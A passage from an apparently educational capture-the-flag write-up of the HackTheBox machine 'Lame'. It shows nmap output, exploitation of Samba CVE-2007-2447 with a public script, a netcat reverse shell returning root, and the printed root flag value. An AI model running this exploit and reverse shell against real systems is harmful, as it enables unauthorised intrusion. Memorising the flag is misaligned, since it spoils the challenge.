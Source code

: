 ``` 
|_  System time: 2020-12-02T03:25:02-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: false
|_smb-vuln-regsvc-dos: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 172.54 seconds

[+] Summary 
21      ftp     vsftpd 2.3.4
				No vuln found
22      ssh     OpenSSH 4.7p1 Debian 8ubuntu1
				No vuln found
139     netbios-ssn     Samba smbd 3.0.20-Debian
				No vuln found
445     microsoft-ds    Samba smbd 3.0.20-Debian
				No vuln found
```

# Samba Service Enumeration
Through the scan result from the previous section the **Samba** service version of the target was identified as 
***3.0.20***. Google-Fu with the version had identified a known vulnerability through ***CVE-2007-2447***. Though
metasploit module is available for the vulnerability, further googling had identified a working python exploit on GitHub
by **amriunix**[^footnote2]. 

# Foothold
Before executing the exploit, the required package ***pysmb*** needed to be installed through *pip*. 
A *netcat* listener, listening on port **9095** was initiated after which the exploit script was executed as follows.
```shell
[b4bygroot@arcolinux Lame ]$ python usermapScript.py 10.10.10.3 445 10.10.14.3 9095
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
``` 
This resulted in a reverse shell on the netcat listener. Enumerating further had showed that the shell received was from
the **root** user, eliminating the need for privilege escalation. The same is shown on the section below.
```shell
➜  Lame  nc -nvlp 9095                                         
Connection from 10.10.10.3:52271
python -c "import pty;pty.spawn('/bin/bash')"
root@lame:/# id
id
uid=0(root) gid=0(root)
root@lame:/# cat /root/root.txt
cat /root/root.txt
0a4e1bf944cdc7df8c2f1eb56bf8030d
root@lame:/# cat /home/makis/user.txt
cat /home/makis/user.txt
```
